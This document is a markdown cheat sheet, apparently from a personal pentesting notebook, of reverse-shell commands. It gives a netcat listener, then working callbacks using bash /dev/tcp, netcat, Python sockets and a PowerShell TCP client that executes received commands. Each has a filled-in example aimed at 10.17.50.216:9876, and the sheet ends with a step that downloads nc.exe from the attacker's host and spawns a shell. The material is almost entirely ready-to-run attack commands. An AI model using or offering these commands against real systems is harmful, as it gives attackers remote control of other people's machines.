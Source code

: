 ```yaml
---
id: reverse_shells
aliases:
  - ON ATTACKING MACHINE
tags: []
---
```


## ON ATTACKING MACHINE
Start a listener:
```
$ nc -lnvp <port>
  - l: listen mode, for inbound connections
  - n: numeric-only IP addresses, no DNS lookup
  - v: verbose
  - p: local port number
```
EXAMPLE
`$ nc -lvnp 9876`

## ON TARGET MACHINE
Call back to attacking machine:

#### WITH BASH
`$ bash -i >& /dev/tcp/<IP>/<port> 0>&1`

EXAMPLE
`S bash -i >& /dev/tcp/10.17.50.216/9876 0>&1`

#### WITH NETCAT 
`$ nc -e /bin/bash <IP> <PORT>`

`$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f` 
			
EXAMPLE
`$ nc -e /bin/bash 10.17.50.216 9876` 

`$rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.50.216 9876 >/tmp/f` 

#### WITH PYTHON 
`$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` 
		
`$ import socket,os,pty;s=socket.socket();s.connect(("<IP>",<PORT>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")` 

EXAMPLES
`$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.50.216",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
		
`$ import socket,os,pty;s=socket.socket();s.connect(("10.17.50.216",9876));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")` 	
		
#### WITH POWERSHELL

`> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` 
	
EXAMPLE
`> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.17.50.216',9876);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` 
	
	
Two Steps:

  1.) Execute this command to remotely download netcat to the target machine:
  
    > powershell curl 10.17.50.216:8000/nc.exe -o nc.exe

  2.) Execute netcat to launch a reverse shell:
  
    > nc.exe 10.17.50.216 9876 -e powershell
